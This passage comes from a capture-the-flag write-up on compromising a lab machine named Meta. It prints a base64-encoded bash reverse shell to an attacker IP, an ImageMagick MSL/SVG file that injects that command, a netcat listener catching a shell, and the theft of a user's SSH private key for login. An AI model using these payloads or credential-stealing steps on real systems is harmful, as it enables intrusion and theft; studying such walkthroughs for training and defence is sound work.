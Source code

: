 

    oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/444 0>&1 ' | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDQgMD4mMSAK



I've added a couple extra spaces to get rid of a `+` and the `=`. Now
I'll generate the payload:



    <image authenticate='ff" `echo "YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDQgMD4mMSAK" | base64 -d | bash`;"'>
      <read filename="pdf:/etc/passwd"/>
      <get width="base-width" height="base-height" />
      <resize geometry="400x400" />
      <write filename="test.png" />
      <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
      <image xlink:href="msl:mog-shell.svg" height="100" width="100"/>
      </svg>
    </image>



I'll upload that to Meta as `mog-shell.svg` (matching the `xlink:href`
line in the file). I can test it to get a shell as www-data, or wait for
the cron which creates a shell as thomas:



    oxdf@hacky$ nc -lvnp 444
    Listening on 0.0.0.0 444
    Connection received on 10.10.11.140 36076
    bash: cannot set terminal process group (3961): Inappropriate ioctl for device
    bash: no job control in this shell
    thomas@meta:/var/www/dev01.artcorp.htb/convert_images$



### SSH

I could upgrade my shell, but there's also an RSA key pair in
`/home/thomas/.ssh`:



    thomas@meta:~/.ssh$ cat id_rsa
    cat id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5
    x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvV
    ...[snip]...



I'll just grab the private key and connect over SSH:



    oxdf@hacky$ ssh -i ~/keys/meta-thomas thomas@10.10.11.140
    Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
